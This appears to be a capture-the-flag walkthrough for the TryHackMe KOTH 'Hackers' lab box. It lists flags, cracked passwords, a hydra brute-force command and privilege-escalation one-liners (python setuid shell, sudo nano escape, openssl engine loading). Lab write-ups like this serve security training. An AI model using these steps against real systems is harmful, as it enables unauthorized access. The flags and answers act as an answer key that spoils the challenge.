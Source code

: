 # KOTH HACKERS<br />

-------------
## IP: `10.10.68.205`<br />

----------------------
### Open Ports -<br />

```
21
22
80
9999
```

----------------------
#### hidden directories -<br />

```
/news
/contact
/img
/staff
/backdoor
```

----------------------
> first flag -<br />

```
thm{b63670f7192689782a45d8044c63197f}
```
`in the source code of default page on port 80`<br />

> second flag -<br />

```
thm{678d0231fb4e2150afc1c4e336fcf44d}
```
`in the hidden files on anonymous login with ftp ls  -la`<br />

-----------------------
##### Credentials -<br />


username: rcampbell<br />
password: cinderella<br />

username: gcrawford<br />
password: evelina<br />

`via hydra`<br />

-----------------------
> third flag -<br />

```
thm{12361ad240fec43005844016092f1e05}
```
`in the hidden files in ftp login with rcampbell ls -la` <br />

-----------------------
##### Login via ssh with rcampbell and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

##### Crack the passphrase for `id_rsa` of gcrawford<br />

```
id_rsa:stephani
```
##### privilege escalation of `gcrawford` user<br/>

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
##### Crack the password for [backdoor](http://10.10.68.205/backdoor)<br />

username: plague<br />
password: tonyhawk<br />

```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.68.205 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```

##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using -<br />

```
sudo openssl req -engine ./shell.so
```

-----------------------
> fourth flag - <br />

```
thm{b9.............................}
```
`in the root directory`<br />
> fifth flag -<br />

```
thm{d8.............................}
```
`in the home directory of gcrawford, within business.txt`<br />

> sixth flag - <br />

```
thm{87.............................}
```
`in the home directory of production`<br />

> seventh flag - <br />

```
thm{3c.............................}
```
`in the home directory of tryhackme`<br />

> eighth flag -

```
thm{21.............................}
```
`in /etc/vsftpd.conf`<br />

> ninth flag -

```
thm{06.............................}
```
`in /etc/ssh/sshd_config`
